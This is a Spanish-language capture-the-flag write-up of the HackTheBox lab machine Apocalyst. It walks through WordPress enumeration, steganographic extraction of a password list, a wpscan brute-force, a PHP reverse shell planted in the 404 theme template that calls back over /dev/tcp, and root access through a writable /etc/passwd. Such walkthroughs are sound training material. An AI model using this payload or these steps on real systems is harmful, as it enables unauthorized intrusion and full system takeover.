

## Apocalyst

---


###### Técnicas demostradas:

- Wordpress Enumeration
- Image Stego Challenge - Steghide
- Information Leakage - User Enumeration
- WordPress Exploitation - Theme Editor (RCE)
- Abusing misconfigured permissions (Privilege Escalation)

---

En primer lugar realizamos un escaneo de en busca de puertos abiertos en la máquina víctima.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.46 -oG allPorts
```


Realizamos un escaneo más profundo sobre los puertos encontrados para tratar de listar el servicio y la versión que está corriendo.

```bash
nmap -p22,80 -sCV 10.10.10.46 -oN targeted
```


Mediante `nmap` realizamos un escaneo sobre el puerto `80` con el script `http-enum` para tratar de listar información de directorios existentes.

```bash
nmap --script http-enum -p80 10.10.10.46 -oN WebScan
```


Añadimos el dominio a nuestro fichero `/etc/hosts`


Mediante la herramienta `WhatWeb` terminamos de listar información del servidor web.

```bash
whatweb apocalyst.htb
```


Revisamos mediante el navegador que tenemos en el puerto `80`


Observamos que nos encontramos ante un `WordPress` del cual sacamos información de un potencial usuario.


Revisamos uno de los directorios listados por `Nmap`, en su interior encontramos una imagen.


Descargamos esta imagen para ver si esconde algo mediante esteganografía.

```bash
wget http://apocalyst.htb/custom/image.jpg
```



Pero no encontramos nada. Mediante el uso de la herramienta `cewl` vamos a crear un diccionario de posibles rutas con las que poder acceder a más recursos.

```bash
cewl -w diccionario.txt http://apocalyst.htb
```


Una vez guardado el diccionario, mediante la herramienta `wfuzz` realizamos un escaneo en busca de posibles rutas existentes.

```bash
wfuzz -c -L --hh=157 --hc=404 -t 20 -w /home/jota/Descargas/HTB/Apocalyst/content/diccionario.txt http://apocalyst.htb/FUZZ
```


Revisamos en el navegador que tenemos en el directorio que hemos listado. Vemos que nos encontramos con la misma imagen en un principio.


De igual manera descargamos esta imagen para revisar si oculta algo.

```bash
wget http://apocalyst.htb/Rightiousness/image.jpg
```


Con la herramienta `steghide` revisamos si tenemos algo en su interior.

```bash
steghide info image.jpg
```


La imagen contiene un archivo `list.txt`. Mediante `steghide` podemos extraer este fichero, dejando como salvoconducto una cadena vacía, ya que no disponemos de ninguna.

```bash
steghide extract -sf image.jpg
```


Revisamos el contenido, el cual puede servirnos como diccionario de potenciales contraseñas para el usuario listado en `WordPress`

```bash
cat list.txt
```


Accedemos al panel de autenticación de `WordPress`


Pero para automatizarlo, haremos uso de la herramienta `wpscan` obteniendo así la contraseña del usuario.

```bash
wpscan --url http://apocalyst.htb -U falaraki -P list.txt
```


Accedemos con estas credenciales al panel de administración de `Wordpress`. En la información del usuario observamos que es el usuario admin.


Uno de los ataques más comunes en `WordPress` es la creación de una reverse-shell mediante la modificación de una plantilla dentro del editor de temas.


Usaremos por ejemplo la plantilla del _Error 404_ por ejemplo.


Sustituimos todo su contenido por el siguiente y guardamos los cambios:

```php
<?php
	system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/443 0>&1'")
?>
```


Nos ponemos a la escucha en nuestra máquina por el puerto indicado y hacemos una petición a la página que hemos modificado.

```bash
nc -nlvp 443
curl "http://apocalyst.htb/?p=404.php"
```


Una vez dentro de la máquina, encontramos la flag en el directorio personal del usuario.


#### Escalada de privilegios

Después de revisar permisos `sudo`, `SUID`, `capabilities` y `cron`, hacemos una búsqueda de archivos con permiso de escritura, aplicando un filtro para ocultar los resultados no deseados. Observamos que curiosamente el archivo `/etc/passwd` tiene permisos de escritura para `others`

```bash
find / -writable 2>/dev/null | grep -vE "/var|/run|/dev|tmp|/lib|/proc|/sys"
```


Lo que tenemos que hacer en este punto sería modificar el contenido del `/etc/passwd` para cambiar la `x` (apunta al `/etc/shadow`) del usuario `root` por una contraseña en texto plano. Esta contraseña debemos pasarla en el formato de algoritmo definido en `/etc/login.defs`, que en nuestro caso es _SHA256_. Teniendo todo esto en cuenta usaremos `openssl` para poner la contraseña que nosotros queramos, por ejemplo `test` obteniendo la cadena con el algoritmo de cifrado.

```bash
openssl passwd
```


Sustituiremos esta cadena por la `x` del usuario root en el fichero `/etc/passwd`


Ya podemos ler la flag root.txt.


